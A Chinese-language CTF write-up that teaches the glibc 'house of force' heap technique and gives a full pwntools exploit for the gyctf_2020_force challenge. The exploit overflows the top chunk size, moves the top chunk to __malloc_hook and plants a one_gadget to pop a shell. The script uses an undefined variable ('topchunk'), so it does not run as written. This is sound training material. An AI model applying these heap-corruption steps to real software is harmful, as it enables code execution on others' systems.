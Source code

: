 ```yaml
---
title: 一道题学习house of force
date: 2020-05-9 23:49:56
tags: pwn
---
```

house of force攻击手段是通过操作top chunk来进行利用的<!--more-->  
top chunk是作为备用的堆空间，当需要申请chunk时，所有bins中的chunk都满足不了所需的size时，就会从top chunk中切割一块chunk出来返回给用户。  
贴上源码  
```cpp  
victim = av->top;
size   = chunksize(victim);
if ((unsigned long) (size) >= (unsigned long) (nb + MINSIZE)) 
{
    remainder_size = size - nb;
    remainder      = chunk_at_offset(victim, nb);
    av->top        = remainder;
    set_head(victim, nb | PREV_INUSE |
            (av != &main_arena ? NON_MAIN_ARENA : 0));
    set_head(remainder, remainder_size | PREV_INUSE);

    check_malloced_chunk(av, victim, nb);
    void *p = chunk2mem(victim);
    alloc_perturb(p, bytes);
    return p;
}
```
👴看不懂，也懒得看，直接解释  
首先会检查申请的size，top chunk够不够给，如果够，就会把原先top chunk的head，变成新申请的chunk的head，并且以新申请的size为offset，把top chunk推到新的位置  
house of force就是通过把top chunk推到任意位置，来控制目标内存  
而且通过malloc不同的size，我们既可以把top chunk推到更高的地址，也可以把它送到更低的地址  
我们的利用思路可以简单概括为，将top chunk的size改为-1，然后-1就会被解释为一个大数，然后可以使得所有64位值都能通过验证  
## gyctf_2020_force  
这题就是通过house of force来做  
首先分析下函数  
![](force1.png)
![](force2.png)
只有add一个功能，puts是空壳函数  
程序在申请chunk后，会打印出chunk的地址，那么我们申请一个大块的空间，系统就会用mmap分配，mmap分配的这块区域在libc下方，偏移是固定的，我们就可以算出libc_base  
然后不管申请多大的chunk，都能读入0x50，那这里就存在溢出，我们通过这个溢出，把top chunk的size改为0xffffffffffffffff，那我们就可以申请很大的size了，我们申请一个size为malloc_hook何top chunk之间的偏移的chunk，那么就能将top chunk推到malloc_hook附近  

```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './gyctf_2020_force' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",26629)
elf=ELF(binary)
libc=elf.libc
def add(size,content):
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(size))
    p.recvuntil("content")
    p.send(content)
def exp():
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(2000000))
    p.recvuntil('bin addr ')
    addr = int(p.recv(14),16)
    print hex(addr)
    libc_base = addr + 0x1e8ff0
    log.success("libc_base==>" + hex(libc_base))
    #gdb.attach(p)
    malloc_hook = libc_base + libc.sym['__malloc_hook']
    log.success("malloc_hook==>" + hex(malloc_hook))
    realloc = libc_base + libc.sym['realloc']
    one_gadget = libc_base + 0x4526a
    p.recvuntil("content")
    p.send("a")
    payload = p64(0)*5 + p64(0xffffffffffffffff)
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x20))
    p.recvuntil('bin addr ')
    heap_base = int(p.recv(14),16) - 0x10 + 0x30 #加上0x30就到了top chunk的位置
    print "heap_base:" + hex(heap_base)
    p.send(payload)
    size = (malloc_hook -0x20) - (topchunk+0x10) #需要realloc调整栈帧，所以申请malloc_hook-0x20
    print size
    gdb.attach(p)
    add(size,"aa")
    pause()
    add(0x20,'a'*8+p64(one_gadget)+p64(realloc+16))
    p.recvuntil("puts")
    p.sendline("1")
    p.recvuntil("size")
    p.sendline(str(0x10))
    #gdb.attach(p)
    p.interactive()
exp()
```
参考链接:   
https://bbs.pediy.com/thread-222924.htm  
https://www.anquanke.com/post/id/175630  
